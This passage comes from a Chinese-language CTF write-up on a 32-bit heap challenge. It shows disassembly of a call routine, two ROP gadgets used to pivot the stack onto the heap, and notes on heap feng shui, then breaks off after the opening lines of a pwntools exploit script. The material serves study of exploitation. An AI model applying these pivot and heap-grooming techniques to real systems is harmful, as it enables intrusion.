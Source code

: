 观察CallFuc的调用部分，可以看到`.text:0000131D                 mov     ecx, [eax+edx*8]`将堆地址放在了`ecx`寄存器中且后续没有更改寄存器值，我们希望将栈迁移到堆，因此只要想办法将`ecx`的值放进`esp`里即可。

这里寻找了两个特殊的`gadget`，首先执行第一个`gadget`让`eax`和`ecx`寄存器的值互换然后调用`[*heap_addr]`，我们在堆块头部放第二个`gadget`，执行这个`gadget`会让`eax`与`esp`寄存器值互换，pop掉无用数据,`ret`的时候触发`rop chain`

```asm
.text:00001314 loc_1314:                               ; CODE XREF: CallFuc+4A↑j
.text:00001314                 lea     eax, (dword_4060 - 3F98h)[ebx]
.text:0000131A                 mov     edx, [ebp+var_10]
.text:0000131D                 mov     ecx, [eax+edx*8]
.text:00001320                 lea     eax, (dword_4060 - 3F98h)[ebx]
.text:00001326                 mov     edx, [ebp+var_10]
.text:00001329                 mov     eax, [eax+edx*8+4]
.text:0000132D                 add     eax, ecx
.text:0000132F                 mov     eax, [eax]
.text:00001331                 mov     [ebp+var_C], eax
.text:00001334                 mov     eax, [ebp+var_C]
.text:00001337                 mov     eax, [eax]
.text:00001339                 test    eax, eax
.text:0000133B                 jnz     short loc_1347
.text:0000133D                 mov     eax, [ebp+var_C]
.text:00001340                 mov     eax, [eax+4]
.text:00001343                 call    eax
.text:00001345                 jmp     short loc_1354



```

```c
/*
magic_gadget1 = 0x00161871# 0x00161871 : xchg eax, ecx ; cld ; call dword
ptr [eax]
magic_gadget2 = 0x00072e1a# 0x00072e1a : xchg eax, esp ; sal bh, 0xd8 ;
mov esi, eax ; add esp, 0x14 ; mov eax, esi ; pop ebx ; pop esi ; ret
```

### exp.py

这里给的exp是`w1tcher`师傅赛后给的官方exp。较为复杂，建议中间多加断点进行调试，需要注意的几个点：
1. 这里通过先分配n个堆块再释放再申请n个小堆块的方式进行堆风水排布以及`v2`指针的控制

2. 选取的地址为`0x58585858`，第一步通过输出判断`0x58585858`这个地址在我们分配的哪个`notes[idx]`的哪个`offset`处，之后根据这个设定范围，向后搜索离其最近的一个大区块的最后一个区块(这里的`最后`指的是分配的`堆地址的最大`的那一个而不是bss上这个区块里`idx`最大的那个)，最终根据偏移计算出`heap_start_addr(开始分配堆块的起始地址)`

```py
from pwn import *

import string

import os

from hashlib import sha256

context(arch = 'i386', os = 'linux', endian = 'little')

context.log_level = 'info'

context.terminal = ['tmux', 'split', '-h']

'''

def POW():

    context.log_level = 'debug'
```